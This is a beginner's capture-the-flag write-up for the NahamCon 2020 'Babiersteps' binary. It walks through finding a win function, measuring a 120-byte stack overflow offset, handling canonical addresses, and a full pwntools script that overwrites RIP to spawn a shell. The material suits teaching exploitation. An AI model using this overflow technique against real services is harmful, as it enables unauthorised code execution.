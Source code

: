 This is my writeup for the "Babiersteps" challange from NahamCon 2020.

After downloading the babier file we run the ```file ./babiersteps``` command wich gives the folowing output:

![alt text](images/file.png?raw=true "File")

We can see that the barbier file is a 64 bit elf file.

When we run a obj dump (```objdump ./babiersteps -d```). we can see that the program contains a win function at address ```0x4011c9.```

![alt text](images/win.png?raw=true "win")


After making the file executable and running we are shown the text "Everyone has heard of gets, but have you heard of scanf?".
If we input some random characters the program wil seemingly do nothing and shut down. If we give the program an input thats over 120 bytes the program wil return a segment fault.

![alt text](images/segfault.png?raw=true "seg")

If we open the program in gdb we can get a better look at what is going on inside babiersteps. ```gdb ./babiersteps``` (Note: I am using geff extention for gdb).
When we imput a lot of A's (300) we can see that we clutter most of the stack but not the RIP (instruction pointer) wich we want to control and point to our win function.

![alt text](images/clutter.png?raw=true "clutter")

Because the file is a 64 bit elf the RIP address has to be a 48 bit canonical address wich means the address has to be in the range ```0x0000000000000000``` to ```0x00007FFFFFFFFFFF``` and ```0xFFFF800000000000``` to ```0xFFFFFFFFFFFFFFFF```. otherwise the address wont be able to clutter the RIP. If we input a bunch of A's we are overwriting the rip with a non-canonical address. If we however run the program with 120 A's up to the point of getting the segfault(offset) and add a 6 bytes canonial address of 6 B's ```0x0000424242424242``` to the end we can see we can control the RIP.

![alt text](images/control.png?raw=true "control")

Now all we have to do is point the address to our win function and hope we get the flag. Our win function was located at ```0x4011c9.```.
We can use pyton to give us the addres in little endian ```python3 -c 'import struct;print(struct.pack("<I",0x4011c9))'```. We then need to add \x00\ 5 times to make the address canonical. If we input this address after our offset we can point to the win function.

I made a little python script using pwn tools to handle the program localy or remotly.

```
import argparse
from pwn import *
import struct;

offset = b"A"*120
rip = b"\xc9\x11@\x00\x00\x00\x00\x00\x00"

payload = b"".join([offset,rip]) 

parser = argparse.ArgumentParser()
parser.add_argument(
        '--host',
        type=str,
        help='The host name or IP address to connect to'
        )
parser.add_argument(
        '--port',
        type=int,
        help='The port for the service to connect to'
        )
parser.add_argument(
        '--file',
        type=str,
        help='Elf file to exploit'
        )

args = parser.parse_args()

if args.host and args.port:
        p = remote(args.host, args.port)

elif args.file and not(args.host) and not(args.port):
        elf = ELF(args.file)
        libc = elf.libc
        p=process(elf.path)

else:
        print("No arguments supplied")
        exit()


p.recvuntil('?')
p.sendline(payload)
p.interactive()
```

If we run this program localy (```python3 payload.py --file ./babiersteps```) we can see that the win function spawned a shell for us and we can cat out the flag.

![alt text](images/flag.png?raw=true "flag")

This was my fist ever write up,
Thanks for reading, Suggestions & Feedback are appreciated !